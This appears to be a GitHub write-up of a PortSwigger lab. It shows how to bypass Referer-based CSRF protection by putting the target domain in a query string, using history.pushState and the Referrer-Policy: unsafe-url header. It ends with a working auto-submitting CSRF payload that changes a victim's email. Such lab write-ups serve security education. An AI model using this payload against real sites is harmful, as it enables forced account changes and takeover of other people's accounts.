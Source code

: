 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9abf93b5-0aec-4926-9889-1414d7bc9620)

## Solution :

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b939c007-ed1f-4744-997a-292111b9214a)

Send the request to Burp Repeater. Observe that if you change the domain in the Referer HTTP header, the request is rejected.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b3ec09f0-9391-4883-a40f-2e4515d1d4eb)

Copy the original domain of your lab instance and append it to the Referer header in the form of a query string. The result should look something like this:

```html
Referer: https://arbitrary-incorrect-domain.net?0a84007a037bd49681013eee007a009d.web-security-academy.net
```

Send the request and observe that it is now accepted. The website seems to accept any Referer header as long as it contains the expected domain somewhere in the string.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b0b37659-f50e-4625-ad91-6c9b8863d1f2)

Create a CSRF proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab and host it on the exploit server. Edit the JavaScript so that the third argument of the history.pushState() function includes a query string with your lab instance URL as follows:

```html
history.pushState("", "", "/?0a84007a037bd49681013eee007a009d.web-security-academy.net")
```

This will cause the Referer header in the generated request to contain the URL of the target site in the query string, just like we tested earlier.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2cb05514-df8c-4e30-9737-b7ba395e5924)

If you store the exploit and test it by clicking "View exploit", you may encounter the "invalid Referer header" error again.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0a0c6398-d3da-4cbe-a948-905210e0250d)

This is because many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:

`Referrer-Policy: unsafe-url`

Note that unlike the normal Referer header, the word "referrer" must be spelled correctly in this case.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/62f801a8-9244-45d2-99b6-d338f21c5356)

Final paload-

```html
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0a84007a037bd49681013eee007a009d.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="cybe4&#64;gmail&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/?0a84007a037bd49681013eee007a009d.web-security-academy.net');

      document.forms[0].submit();

    </script>

  </body>

</html>

```

Store the exploit, then click "Deliver to victim" to solve the lab.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0918141d-b969-4646-954e-d5bd4fe84775)
